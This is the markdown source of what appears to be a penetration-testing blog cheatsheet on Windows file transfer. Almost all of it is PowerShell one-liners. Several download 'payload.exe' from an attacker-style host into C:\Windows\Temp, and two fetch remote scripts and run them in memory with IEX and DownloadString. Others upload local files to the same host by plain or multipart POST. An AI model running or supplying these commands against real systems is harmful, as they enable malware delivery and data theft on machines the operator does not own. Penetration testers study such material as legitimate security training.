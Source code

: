 ```yaml
---
layout: post
title: Windows File Transfer Cheatsheet
date: 2025-04-10 16:36 +0300
categories: [Windows]
tags: [file transfer, windows, powershell]
---
```


## PowerShell HTTP Transfers

### Download Files
```powershell
# Basic file download
Invoke-WebRequest -Uri "http://10.10.10.1:8000/payload.exe" -OutFile "C:\Windows\Temp\payload.exe"

# Download with System.Net.WebClient (PowerShell 2.0 compatible)
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.1:8000/payload.exe", "C:\Windows\Temp\payload.exe")

# Download and execute in memory
Invoke-Expression (New-Object System.Net.WebClient).DownloadString("http://10.10.10.1:8000/script.ps1")
IEX (New-Object Net.WebClient).DownloadString("http://10.10.10.1:8000/script.ps1")

# Download with progress bar
Invoke-WebRequest -Uri "http://10.10.10.1:8000/large_file.exe" -OutFile "C:\Windows\Temp\large_file.exe" -UseBasicParsing

# With authentication
$cred = Get-Credential
Invoke-WebRequest -Uri "http://10.10.10.1:8000/payload.exe" -OutFile "C:\Windows\Temp\payload.exe" -Credential $cred
```

### Upload Files
```powershell
# Using PowerShell and Invoke-WebRequest POST
Invoke-RestMethod -Uri "http://10.10.10.1:8000/upload" -Method Post -InFile "C:\Windows\Temp\data.txt"

# Multipart form upload
$filePath = "C:\Windows\Temp\data.txt"
$boundary = [System.Guid]::NewGuid().ToString()
$LF = "`r`n"
$contentType = "multipart/form-data; boundary=`"$boundary`""
$body = (
    "--$boundary",
    "Content-Disposition: form-data; name=`"file`"; filename=`"$(Split-Path $filePath -Leaf)`"",
    "Content-Type: application/octet-stream$LF",
    [System.IO.File]::ReadAllText($filePath),
    "--$boundary--$LF"
) -join $LF
Invoke-RestMethod -Uri "http://10.10.10.1:8000/upload" -Method Post -ContentType $contentType -Body $body
```
